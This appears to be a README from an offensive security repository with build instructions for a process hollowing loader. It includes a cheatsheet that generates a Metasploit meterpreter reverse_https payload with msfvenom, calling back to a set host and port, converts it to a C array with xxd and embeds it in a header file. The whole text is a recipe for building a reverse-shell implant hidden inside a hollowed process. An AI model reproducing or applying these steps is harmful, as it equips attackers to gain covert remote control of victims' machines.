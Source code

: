 ## Hollow Build Instructions - Visual Studio

1. Create new visual studio project.
2. Add MSFPayload.h and ProcessHollowing.c
3. Update the payload within MSFPayload.h appropriately

## MSFPayload Build Cheatsheet

0. Generate MSF payload

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=443 -f exe -o msf.exe
```

1. Create C array.

```
xxd -i msf.exe
```

2. Copy and paste msfpayload in MSFPayload.h

3. Update variable names as appropriate.

